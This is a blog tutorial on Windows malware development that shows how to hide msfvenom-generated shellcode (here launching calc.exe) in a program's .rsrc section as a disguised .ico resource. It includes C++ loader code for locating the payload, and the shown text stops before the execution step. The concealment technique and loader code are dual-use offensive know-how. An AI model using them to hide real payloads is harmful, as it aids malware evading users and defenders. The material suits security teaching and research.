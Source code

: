 ```yaml
---
title: "Windows Malware Development Part 4: Payload Placement Basics - .rsrc"
header:
  teaser: /assets/images/pe.png
  teaser_home_page: true
categories:
  - Malware Dev
classes: wide
tags:
  - Malware
toc: true
toc_label: Contents
---
```

## Objective ##

Hey guys, welcome to the fourth part of Windows Malware Development, in which we will be looking at the final part of the basics of payload placement. In this post, we will be looking at how to place our shellcode in the `.rsrc` section.

## .rsrc Section ##

If you recall from the PE file structure post, the `.rsrc` section contains any resources that our program needs to load in order to function. From a Malware development perspective however, we can use this section our advantage. Our shellcode will now be hidden in the resources section of our program, away from plain sight.

>You will need Visual Studio/Visual studio build tools, x64dbg and Metasploit (comes with a build of Kali Linux) for this exercise.
>
>For this post, I will be using the Visual Studio GUI for the purposes of simplicity, since its easier to create and add a resource using the GUI. However, it is still possible without it.

We will be changing our shellcode in this post to actually execute something, and in the process learn how to use the Metasploit Framework in order to generate shellcode.

## Creating the Shellcode and Resource File ##

### Generating Shellcode using the Metasploit Framework ###

Readers who come from a penetration testing and red teaming background would know that the Metasploit Framework offers many tools that aid with these tasks. One of those tools is `msfvenom`, which is a console tool that can be used to generate different types of payloads and shellcode.

We will be using `msfvenom` in order to generate shellcode that launches `calc.exe` (The Windows Calculator) using `CMD`.

```sh
┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/x64/exec CMD=calc.exe > pay.ico 
```

- `-p windows/x64/exec`: This is the payload type. There are many types of payloads, for example, if you want to generate a reverse shell shellcode you will be using a different payload type. In this case, we are using a command execution payload type.
- `CMD= calc.exe`: The command that we wish to execute, which in this case, is `calc.exe`.
- `> pay.ico`: The output file containing our shellcode. You can use any acceptable resource file extension, but in this case we will be using the `.ico` (ICON file) extension.

If we try to view our file, it will appear to be a bunch of binary data, however, we can see the word `calc.exe`:

```
┌──(kali㉿kali)-[~]
└─$ cat '/home/kali/Desktop/pay.ico'       
A�8�u�LLE9�u�XD�@$I�fA�H�P�H▒D�@ I��VH��A�4�H�M1�H1��A��
                       HD�@I�A��H�AXAX^YZAXAYAZH�� AR��XAYZH��W���]H�H��A�1�o��ջ���VA�������H��(<|
���u�GrojYA����calc.exe 
```

### Adding the File as a Resource ###

Now that our shellcode file is ready, let's add it as a resource for our program. 

- Start by creating a blank C++ project in Visual Studio. 
- In the solution explorer pane (right-hand side of the screen), right-click on the Resource Files icon, and select Add > New Item and view all the templates.
- Select Resource from the left pane and add a Resource File (.rc). Leave the name as is.
- You will see a new pane labeled Resource View open in place of the solution explorer. Right-click on the Resource.rc icon and click on Add Resource.
- In the new window, click on Import, and import your `.ico` shellcode file.
- Enter `RCDATA` as the Resource Type and click OK.

![RCDATA](/assets/images/rcdata.png)

- You will now see your resource displayed as binary data.

Navigate back to the solution explorer pane and have a look at the `resource.h` header file. The `#define` statement that you see is your payload's ID in the `.rsrc` section (in this case, `IDR_RCDATA1`), and will be needed later when we're loading it,

```cpp
//{{NO_DEPENDENCIES}}
// Microsoft Visual C++ generated include file.
// Used by Resource.rc
//
#define IDR_RCDATA1                     101

// Next default values for new objects
// 
#ifdef APSTUDIO_INVOKED
#ifndef APSTUDIO_READONLY_SYMBOLS
#define _APS_NEXT_RESOURCE_VALUE        102
#define _APS_NEXT_COMMAND_VALUE         40001
#define _APS_NEXT_CONTROL_VALUE         1001
#define _APS_NEXT_SYMED_VALUE           101
#endif
#endif
```

## Writing the program ##

Start off by adding a C++ file to you project (if not done already). Let's start writing the program. The flow would go as follows:

- Fetch resource location.
- Fetch a handle to the loaded resource.
- Get the address of our shellcode in the `.rsrc` section.
- Get the size of our shellcode.
- Copy to an executable memory buffer.
- Execute it.

### Fetching the location of our resource ###

We will be using the `FindResourceW` API for this operation. Taking a look at the documentation, we can see that it takes three parameters:

```cpp
HRSRC FindResourceW(
  [in, optional] HMODULE hModule,
  [in]           LPCWSTR lpName,
  [in]           LPCWSTR lpType
);
```

- `[in, optional] hModule`: Handle to the module containing the PE file with the resource.
- `[in] lpName`: Resource ID. This parameter can be `MAKEINTRESOURCE(ID)`.
- `[in] lpType`: Resource type.

We are going to fetch the location of our resource using the resource ID that we saw earlier, which will be our second parameter. We will be passing it through the function `MAKEINTRESOURCEW()` in order to pass this ID to the API.

Also, our resource type will be passed as `RT_RCDATA`, as you remember that we had set it while importing the resource file.

```cpp
int main() {
    HRSRC       hRsrc = NULL;
    HGLOBAL     hGlobal = NULL;
    PVOID       pPayloadAddress = NULL;
    SIZE_T      sPayloadSize = NULL;

    // Get the location to the data stored in .rsrc by its id
    hRsrc = FindResourceW(NULL, MAKEINTRESOURCEW(IDR_RCDATA1), RT_RCDATA);
    if (hRsrc == NULL) {
        // in case of function failure
        printf("[!] FindResourceW Failed With Error : %d \n", GetLastError());
        return -1;
    }
```

### Getting a handle to the specified resource data

The next step requires us to get a handle to the specified resource data, which will be required in the next step in order to locate our shellcode. To perform this operation, we will be using the `LoadResource` API.

```cpp
HGLOBAL LoadResource(
  [in, optional] HMODULE hModule,
  [in]           HRSRC   hResInfo
);
```

- `[in, optional] hModule`: A handle to the module whose executable file contains the resource. 
- `[in] hResInfo`: A handle to the resource to be loaded.

This API requires us to pass a handle to the resource, which we acquired from the previous step (`hRsrc`). We are going to store the handle returned in the `hGlobal` variable as follows:

```cpp
hGlobal = LoadResource(NULL, hRsrc);
if (hGlobal == NULL) {
    // in case of function failure
    printf("[!] LoadResource Failed With Error : %d \n", GetLastError());
    return -1;
}
```

### Getting the address of our payload

We will be using the `LockResource` API for this task. This API will return a pointer to where our payload is located in the resource's memory.

```cpp
LPVOID LockResource(
  [in] HGLOBAL hResData
);
```

- ```[in] hResData```: A handle to the resource to be accessed. The ```LoadResource``` function returns this handle.

 It takes the previously returned value as its only parameter.

```cpp
pPayloadAddress = LockResource(hGlobal);
if (pPayloadAddress == NULL) {
    // in case of function failure
    printf("[!] LockResource Failed With Error : %d \n", GetLastError());
    return -1;
}
```
